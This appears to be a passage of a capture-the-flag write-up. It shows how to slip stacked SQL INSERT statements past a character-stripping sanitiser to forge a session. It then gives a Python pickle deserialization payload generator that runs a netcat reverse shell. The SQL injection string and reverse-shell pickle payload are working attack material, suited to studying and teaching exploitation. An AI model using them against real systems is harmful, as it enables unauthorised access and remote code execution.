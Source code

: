 
### Adding a valid session to the DB
Since we know that the `executeScript` allows multiple statements. We can add an `INSERT` after the initial `SELECT` statement. However we still have to bypass the input sanitation inplaced as the inputs are passed in the `DBClean` function.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

To bypass we can just fill in with comments and backslash `\`:

```SQL
-- input
INSERT/**/INTO/**/table(col)/**/VALUES(\val\)
-- is simply
INSERT INTO table(col) VALUES('val')
```


We can supply an arbitrary username and add our payload in the password like so.

```
password\;INSERT/**/INTO/**/activesessions(sessionid)/**/VALUES(1337);--
```

Note: We can verify if the session is inserted by going to `/download/flag.txt/1337`. and the error is not "No active sessions found"

### Exploiting using Pickle RCE
I was  stuck trying to exfiltrate using boolean based to determine if the database is the same as provided. Once confirmed, I  thought that reading a mangled flag.txt is the challenge or trying to read from a different table. Then I noticed that it is using pickle library for files which can be vulnerable to **deserialization** attacks .

Create generic Pickle RCE payload. There are online guides out there but this is generally what it looks like. 


```python
import pickle, base64
import os, sys


class PickleRCE:
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (os.system, (self.payload,))
        
def pickle_dump(obj):
    return base64.b64encode(pickle.dumps(obj)).decode()


pickled = PickleRCE("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {ip} {port} >/tmp/f")
payload = pickle_dump(pickled)
print(payload)
```
